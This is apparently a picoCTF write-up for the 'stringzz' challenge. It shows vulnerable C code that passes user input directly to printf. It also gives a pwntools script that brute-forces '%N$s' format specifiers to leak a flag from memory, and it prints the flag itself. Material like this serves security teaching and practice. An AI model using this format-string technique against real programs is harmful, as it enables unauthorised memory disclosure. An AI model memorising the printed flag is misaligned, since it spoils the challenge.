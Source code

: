 # stringzz

Points: 300

# Question

Use a format string to pwn this [program](vuln) and get a flag. Its also found in /problems/stringzz_6_5f0e31bfd7b9a7c6a32d22b6d57e9010 on the shell server. [Source](vuln.c).

# Hint 

http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

# Solution

Looking at the source code:

```C
void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);                        <----- printf which can be exploit with format strings
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);            <------ user give some input 
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");                
    fgets(buf,FLAG_BUFFER,f);                <------ flag loaded to some place in memory
    printMessage1(input);        
    fflush(stdout);
 
}
```

This time we have no win function and we don't need to overflow the buff, the flag is somewhere in the memory and we can just print it using format_strings 

for example, if we give "%x" as input we will some output we did not suppose to get, look like memory addresses.

![](strings1.png)

so we can brute-force and make the program print a lot of stuff that stored in our memory and hopefully the flag  - [script](script.py)

```python
from pwn import *

path ="/problems/stringzz_6_5f0e31bfd7b9a7c6a32d22b6d57e9010/vuln"
for i in range(100):
        try:
            sh =process(path)
            sh.sendline('%{}$s'.format(i))
            print(sh.recv())
            sh.close()
        except EOFError:
            pass
```

after searching a bit between all outputs we can find the flag 

![](strings2.png)

# Flag
picoCTF{str1nG_CH3353_0814bc7c}

